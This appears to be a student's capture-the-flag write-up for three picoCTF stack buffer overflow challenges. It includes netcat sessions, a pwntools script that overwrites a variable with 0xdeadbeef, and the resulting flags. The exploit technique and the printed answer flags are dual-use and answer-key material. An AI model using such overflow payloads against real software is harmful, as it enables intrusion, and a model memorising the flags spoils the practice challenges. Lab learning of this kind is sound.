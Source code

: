 # 1. buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.

## Solution:

![alt text](image.png)
As the challenge suggested, I opened the source file to see that the first function was something known as "sigsegv_handler" and it printed the flag upon a segmentation error.

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc saturn.picoctf.net 49249
Input: VVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVVV
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
So then I ran the nc command given in the challenge and spammed it with characters and overflowed it to get the flag 

## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:

- What is buffer overflow
- How to make segmentation error by overflowing.

## Notes:

- nc command is netcat command for reading from and writing to network connections using TCP or UDP.

## Resources:

- [Buffer Overflow](https://youtu.be/AD-iXWANggo?si=qMPe0lBi1SivMyQo)

# 2. Format String 0

Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Additional details will be available after launching your challenge instance.

## Solution:
![alt text](image-1.png)
Similar to the first challenge, there is another sigsegv function that requires overflow to print the flag

```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF$ nc mimas.picoctf.net 64212
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaaa
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```
I spam it with characters to overflow the input and get the flag.

## Flag:

```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}
```

## Concepts learnt:

- Better understanding in sigsegv segmentation fault.

## Notes
- None 

## Resources:

- None

# 3. Clutter-Overflow

Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890

## Solution:
First I opened the c program to find that the program needs to have buffer overflow to print the flag and the main command behind this is gets function where if I exceed the size, I can cause a buffer overflow, now to check by how much do I need to exceed.


```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF/Bin_Exp$ nc mars.picoctf.net 31890
 ______________________________________________________________________
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |
|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|
| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \^ ^ |
|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \ ^ _ ^ / |                | \^ ^|
| ^/_\^ ^ ^ /_________\^ ^ ^ /_\ | //  | /_\ ^| |   ____  ____   | | ^ |
|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|
| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |
|^ ^ ^ ^ ^| /     (   \ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \|^ ^|
.-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |
|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\ |^ ^|
| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |
|'.____'_^||/!\@@@@@/!\|| _'______________.'|==                    =====
|\|______|===============|________________|/|""""""""""""""""""""""""""
" ||""""||"""""""""""""""||""""""""""""""||"""""""""""""""""""""""""""""
""''""""''"""""""""""""""''""""""""""""""''""""""""""""""""""""""""""""""
""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
"""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""""
My room is so cluttered...
What do you see?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
code == 0x0
code != 0xdeadbeef :(
```
Since SIZE was equal to 0x100(256 bytes) this implies I need to provide more than 256 bytes of input and cause it to overflow. Now by looking at the algorithm the main objective is to overwrite the code variable to be equal to GOAL, so I first 256 bytes of padding data need to be sent and then 8 more bytes which will overwrite the 8 bytes allocated for the code variable(long variable takes about 8 bytes in 64 bit architecture) which will then be added to the payload. Then I packed the GOAL by using p64() and then appended it to the end of the payload. Sending that payload to the server and then getting the output I get the flag.

```python
#solve.py
from pwn import *
padding = b'A' * 264
goal = 0xdeadbeef
payload = padding + p64(goal)
r = remote('mars.picoctf.net', 31890)
r.recvuntil(b"What do you see?\n")
r.sendline(payload)
print("\n[+] Payload sent! Receiving the flag...")
r.interactive()
```


```bash
snmvarun@DESKTOP-16J7ALL:/mnt/d/Cryptonite/PicoCTF/Bin_Exp$ python3 solve.py
[+] Opening connection to mars.picoctf.net on port 31890: Done

[+] Payload sent! Receiving the flag...
[*] Switching to interactive mode
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
[*] Got EOF while reading in interactive
```

## Flag:

```
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
```

## Concepts learnt:

- Exploiting vulnerable programs and how to spot vulnerability
- Deeper understanding in Data and architecture.
- How gets function is dangerous

## Notes:

- Include any alternate tangents you went on while solving the challenge, including mistakes & other solutions you found.
- 

## Resources:

- [pwntools tutorial](https://www.youtube.com/watch?v=9wepzpQhhio)


